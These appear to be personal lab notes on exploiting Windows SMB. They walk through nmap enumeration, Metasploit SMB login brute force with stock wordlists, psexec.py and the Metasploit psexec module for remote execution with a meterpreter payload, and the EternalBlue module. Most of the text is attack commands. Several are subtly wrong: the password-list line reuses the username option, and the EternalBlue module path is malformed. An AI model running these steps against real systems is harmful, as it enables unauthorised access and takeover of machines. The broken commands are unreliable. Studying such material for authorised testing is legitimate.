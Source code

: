 # Exploiting SMB

PS Exec requires legitimate credentials  
SMB login brute force attach is the best attack for this  - _We can narrow down to the username **Administrator**_

## Enumerate
Use nmap -sC -sV to verify SMB version  
Message signing enabled but not required - This means we can authenticate with PSexec

## Brute Force
```service postgresql start && msfconsole```

**Module** - auxiliary/scanner/smb/smb_login
user file - ```set user_file /usr/share/metasploit-framework/data/wordlists/common_users.txt```  
Password file - ```set user_file /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt```  
Turn off Verbose

## psexec.py 
Since we cannot run .exe files on linux, we are going to use psexec.py

```psexec.py (username)@(Target IP address) cmd.exe```

## Extending attack - Metasploit
**Module** - exploit/windows/smb/psexec  
_This will authenticate through SMB and upload a meterpreter payload and execute it. This provides us with a meterpreset session_

## Eternal blue
**Module** - windows/smb/ms17_010_eternalblue)
